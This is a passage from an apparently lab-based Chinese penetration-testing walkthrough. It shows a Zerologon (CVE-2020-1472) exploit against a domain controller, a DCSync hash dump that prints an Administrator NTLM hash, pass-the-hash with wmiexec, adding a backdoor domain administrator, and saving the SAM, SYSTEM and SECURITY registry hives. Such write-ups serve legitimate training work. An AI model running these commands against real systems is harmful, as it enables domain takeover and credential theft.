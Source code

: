 首先测试一下域控是否有这个漏洞

```bash
proxychains4 python3 zerologon_tester.py owa 192.168.52.138

Success! DC can be fully compromised by a Zerologon attack.
```

返回成功，可以利用这个漏洞

```bash
┌──(root㉿kali)-[/home/kali/hongri1/CVE-2020-1472-master]
└─# proxychains4 python3 cve-2020-1472-exploit.py owa 192.168.52.138

Target vulnerable, changing account password to empty string

Result: 0
Exploit complete!
```

重置成功，利用`Dcsync`查看密码hash

```bash
proxychains4 impacket-secretsdump 'god.org/owa$@192.168.52.138' -no-pass
```

得到`Administrator`的密码hash

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6a2ff5138ef3012467338a175e14f440:::
```

##### 利用wmiexec获取到Shell

```bash
proxychains4 impacket-wmiexec 'administrator@192.168.52.138' -hashes aad3b435b51404eeaad3b435b51404ee:6a2ff5138ef3012467338a175e14f440
```

![image-20240504214615718](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240504214615718.png)

添加一个用户，用于远程桌面连接

```cmd
net user test123 Password123 /add /domain
net localgroup administrators test123 /add
```

![image-20240504220556947](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240504220556947.png)

至此三台主机全部拿下

##### 密码复原操作

> 我们将域控的密码置空了，必须恢复一下，否则可能脱域导致整个域环境瘫痪

备份注册表

```cmd
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
```
